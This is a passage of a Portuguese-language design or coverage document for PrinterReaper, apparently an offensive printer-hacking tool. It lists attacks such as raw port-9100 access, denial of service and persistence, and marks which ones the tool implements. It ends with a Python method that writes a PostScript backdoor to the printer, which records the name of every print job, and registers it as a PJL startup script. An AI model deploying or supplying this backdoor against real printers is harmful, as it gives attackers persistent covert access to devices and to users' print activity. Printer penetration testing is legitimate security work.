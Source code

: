 ### ✅ 9.2 Direct Print Bypass
**PJL**: Conectar direto porta 9100  
**PrinterReaper**: `open` para conexão direta  
**Efeito**: Bypass de print server

### ❌ 9.3 Network DoS (FALTANDO)
**Descrição**: DoS via flooding de conexões  
**PrinterReaper**: **NÃO IMPLEMENTADO**  
**Efeito**: Indisponibilidade de serviço

---

## 🔟 PERSISTENCE (1/3 = 33%)

### ✅ 10.1 Configuration Modification
**PJL**: `@PJL SET var=value`  
**PrinterReaper**: `set`  
**Efeito**: Modificações persistem após reinicialização

### ❌ 10.2 Backdoor Installation (FALTANDO)
**Descrição**: Instalar backdoor em PostScript  
**PrinterReaper**: **NÃO IMPLEMENTADO**  
**Efeito**: Acesso persistente ao sistema

**Implementação**:
```python
def do_backdoor(self, arg):
    """Install PostScript backdoor"""
    if not arg:
        # Generate default backdoor
        backdoor_ps = """
        %!PS-Adobe-3.0
        % Backdoor - Executes on every print job
        << /BeginPage {
            % Exfiltrate data
            (0:/exfil.txt) (a) file
            /exfil exch def
            systemdict /jobname get exfil exch writestring
            exfil closefile
        } >> setpagedevice
        """
        arg = "auto-generated"
    else:
        backdoor_ps = file().read(arg)
        if not backdoor_ps:
            return
        if isinstance(backdoor_ps, bytes):
            backdoor_ps = backdoor_ps.decode('utf-8')
    
    # Install backdoor
    self.put("0:/system/init.ps", backdoor_ps.encode())
    
    # Configure to load on startup (varies by model)
    self.cmd("@PJL SET STARTUPSCRIPT=\"0:/system/init.ps\"")
    
    output().info("Backdoor installed")
    output().warning("Backdoor will execute on every print job!")
```

